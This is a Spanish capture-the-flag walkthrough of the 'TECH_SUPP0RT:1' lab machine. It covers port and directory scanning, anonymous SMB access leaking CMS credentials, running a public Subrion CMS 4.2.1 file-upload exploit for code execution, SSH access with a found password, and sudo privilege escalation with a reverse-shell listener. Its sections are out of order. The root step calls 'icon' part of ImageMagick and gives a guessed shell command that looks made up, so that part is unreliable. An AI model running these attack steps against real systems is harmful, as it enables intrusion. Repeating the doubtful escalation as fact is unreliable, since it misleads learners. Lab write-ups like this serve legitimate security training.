

# Máquina TECH_SUPP0RT:1

## 8. Explotación de Sudoers: /usr/bin/icon (ROOT)

El binario `icon` es ejecutable como root sin contraseña. Esto permite aprovecharlo para ejecutar comandos con privilegios elevados.

### 8.1. Confirmación de permisos

**Comando:**

`sudo -l`

### 8.2. Referencia (GTFOBins)

`icon` pertenece a ImageMagick. Si está permitido por `sudoers`, se puede forzar ejecución de comandos.

### 8.3. Escalada a root (shell)

1. **Preparar un listener en Kali (si vas a sacar reverse shell):**
    
    `nc -lvnp 4444`
    
2. **Ejecutar como root (ejemplo de shell local):**
    
    `sudo /usr/bin/icon -help`
    
    Si el binario permite ejecutar comandos (depende de la versión/compilación), prueba con una ejecución directa de shell desde la funcionalidad de delegación:
    
    - `sudo /usr/bin/icon -e 'system("/bin/bash -p");'`\
    - o bien una reverse shell adaptando tu IP/puerto.

> Nota: la sintaxis exacta puede variar. Si este paso falla, revisa la ayuda (`icon -h`, `icon -help`) y valida versión (`icon -version`).
> 

### 8.4. Verificación de privilegios

**Comandos:**

- `id`
- `whoami`

### 8.5. Flag de root

Una vez como `root`, localiza la flag:

- `cd /root`
- `ls -la`
- `cat root.txt`

---

## 9. Resumen de la Ruta de Ataque

- Reconocimiento: Nmap + enumeración web.
- Acceso inicial: SMB (share `websvr`) + credenciales Subrion.
- RCE: File upload en Subrion CMS 4.2.1.
- Movimiento/estabilización: SSH como `scamsite`.
- Escalada: `sudo` sin contraseña sobre `/usr/bin/icon`.

## 1. Fase de Reconocimiento (Enumeración de Puertos)

Empezamos lanzando un escaneo de puertos para ver qué servicios están corriendo en la IP de la máquina.

### Escaneo de Puertos (Nmap)

**Comando:**

nmap -sV -sC -p- 10.80.156.20 

###

### Enumeración de Directorios Web

Utilizamos `gobuster` para realizar fuerza bruta de directorios en el servidor web:

Bash

`gobuster dir -u http://10.80.156.20 -w /usr/share/wordlists/dirb/common.txt`

### Enumeración de SMB

Al detectar el puerto 445 abierto, listamos los recursos compartidos:

Bash

`smbclient -L //10.80.156.20/ -N`

> **Resultado:** Identificamos un recurso compartido llamado `websvr`.
> 

## 2. Explotación de SMB

Ahora, **lo que tienes que hacer a continuación** es entrar en esa carpeta y ver qué hay dentro. Ejecuta este comando en tu terminal:

Bash

`smbclient //10.80.156.20/websvr -N`

Una vez dentro (verás el prompt `smb: \>`), escribe:

1. `ls` (para ver los archivos).
2. `get enter.txt` (para descargar el archivo que suele estar ahí).
3. `exit` (para salir).

### Análisis del archivo `enter.txt`:

Al revisar el contenido con `cat enter.txt`, obtenemos pistas fundamentales para el siguiente paso:

- **Objetivos:** Se menciona que el sitio `/subrion` no funciona correctamente y debe ser editado desde el panel.
- **Credenciales de Subrion:** * **Usuario:** `admin`
    - **Password:** `7sKvntXdPEJaxazce9PXi24zaFrLiKWCk`
    - 
    
    
    

### Descifrando la "Fórmula Mágica"

La contraseña encontrada en el SMB (`7sKvntXdPEJaxazce9PXi24zaFrLiKWCk`) no es un Base64 simple. Utilizamos **CyberChef** con la función **Magic** para analizarla.

- **Cadena original:** `7sKvntXdPEJaxazce9PXi24zaFrLiKWCk`
- **Proceso:** La herramienta detecta una codificación múltiple (Base58 -> Base32 -> Base64).
- **Resultado:** `Scam2021`

### Intrusión: Subrion Admin Panel

Con las credenciales legítimas descubiertas, procedemos a explotar el panel de administración del CMS.

- **URL de acceso:** `http://10.80.156.20/subrion/panel/`
- **Usuario:** `admin`
- **Contraseña:** `Scam2021`

### 5. Explotación: Subida de Shell y RCE (Minuto 11:00)

Una vez dentro del Dashboard de **Subrion CMS v4.2.1**, aprovechamos una vulnerabilidad conocida de subida de archivos para obtener una shell reversa.

### Búsqueda con Searchsploit

Utilizamos `searchsploit` para buscar vectores de ataque contra **Subrion CMS**:

Bash

`searchsploit Subrion`

**Resultados clave:**

- **Software:** Subrion CMS v4.2.1.
- **Exploit seleccionado:** `Subrion CMS 4.2.1 - Arbitrary File Upload`.
- **ID de Exploit:** `php/webapps/49876.py`.

### Paso a seguir (Ejecución):

Ahora tienes que traerte ese script a tu carpeta actual para ejecutarlo. Sigue estos comandos en tu Kali:

1. **Copia el exploit:**Bash
    
    `searchsploit -m 49876`
    

**Ejecuta el exploit:**
Obtenemos la url del panel al cual accedimos antes 

Bash

`python3 49876.py -u http://10.80.156.20/subrion/panel/ -l admin -p Scam2021`

### 6. Post-Explotación y Movimiento Lateral

Tras obtener acceso como `www-data`, inspeccionamos los usuarios del sistema para identificar posibles objetivos de escalada.

### Enumeración de Usuarios

Ejecutamos `cat /etc/passwd` y localizamos al usuario objetivo:

- **Usuario:** `scamsite`
- **Home:** `/home/scamsite`
- **Shell:** `/bin/bash`

Vemos que el archivo es leible 

Con el comando GREP obtenemos la contrasñea 

### 6.1. Acceso mediante SSH (Estabilización Definitiva)

Debido a que la shell obtenida por el exploit de Subrion es limitada e inestable, procedemos a utilizar las credenciales encontradas (`scamsite : ImAScammerLOL!123!`) para conectar vía **SSH**. Esto nos proporciona una sesión de terminal completa y persistente.

**Comando de conexión:**

Bash

`ssh scamsite@10.80.156.20`

### Recolección de la Flag de Usuario

Una vez dentro del sistema como `scamsite`, localizamos la primera flag en el directorio personal del usuario:

### 7. Escalada de Privilegios: De scamsite a ROOT

### Vulnerabilidad de Sudoers

Al ejecutar `sudo -l`, identificamos una configuración permisiva en el archivo sudoers:
`(ALL) NOPASSWD: /usr/bin/icon`

